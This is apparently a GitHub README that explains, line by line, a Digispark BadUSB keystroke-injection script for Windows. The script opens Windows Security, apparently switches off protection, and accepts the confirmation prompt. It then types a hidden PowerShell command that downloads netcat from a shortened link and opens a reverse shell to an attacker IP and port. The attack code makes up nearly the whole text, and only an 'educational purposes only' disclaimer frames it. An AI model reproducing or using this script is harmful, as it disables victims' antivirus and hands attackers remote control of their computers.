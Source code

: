 <h1><div align="center"><i>Script Breakdown</i></div></h1>

<code>#include "DigiKeyboard.h"</code>   This line includes the DigiKeyboard library.

<code>void setup() {}</code>          This line starts the setup function.

<code>DigiKeyboard.delay(1000);</code>       This line pauses the script for 1 second.

<code>DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);</code>  This line sends a key press for the S key with the left GUI (Windows) key modifier.

<code>DigiKeyboard.delay(1000);</code>  This line pauses the script for 1 second.

<code>DigiKeyboard.print("virus & threat protection");</code>   This line inputs the text "virus & threat protection".

<code>DigiKeyboard.delay(500);</code>   This line pauses the script for 0.5 seconds.

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>    This line sends a key press for the Enter key.

<code>DigiKeyboard.delay(5000);</code>    This line pauses the script for 5 seconds.

<code>DigiKeyboard.sendKeyStroke(43);</code>
<code>DigiKeyboard.sendKeyStroke(43);</code>    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
<code>DigiKeyboard.sendKeyStroke(43);</code>
<code>DigiKeyboard.sendKeyStroke(43);</code>

<code>DigiKeyboard.delay(700);</code>   This line pauses the script for 0.7 seconds.

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>  This line sends a key press for the Enter key.

<code>DigiKeyboard.delay(700);</code>   This line pauses the script for 0.7 seconds.

<code>DigiKeyboard.sendKeyStroke(KEY_SPACE);</code>   This line sends a key press for the Space key.

<code>DigiKeyboard.delay(2000);</code>    This line pauses the script for 2 seconds.

<code>DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);</code>   This line sends a key press for the Y key with the left Alt key modifier.

<code>DigiKeyboard.delay(1000);</code>   This line pauses the script for 1 second.

<code>DigiKeyboard.sendKeyStroke(KEY_F4, MOD_ALT_LEFT);</code>  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

<code>DigiKeyboard.delay(500);</code>     This line pauses the script for 0.5 seconds.

<code>DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);</code>   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

<code>DigiKeyboard.delay(700);</code>  This line pauses the script for 0.7 seconds.

<code>DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe &lt;ip&gt; &lt;port&gt; -e powershell.exe");</code>  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.

<code>DigiKeyboard.sendKeyStroke(KEY_ENTER);</code>  This line sends a key press for the Enter key, which executes the PowerShell command.
 
<code>void loop() {}</code> This line starts the loop function, which is empty in this script. The loop function is not used in this script.

<h2><div align="center"><i>Warning</i></div></h2>
<em>Everything in this repository is intended for educational purposes only. I am not responsible for any wrong behavior on your part. You are responsible for your actions using the script.</em>
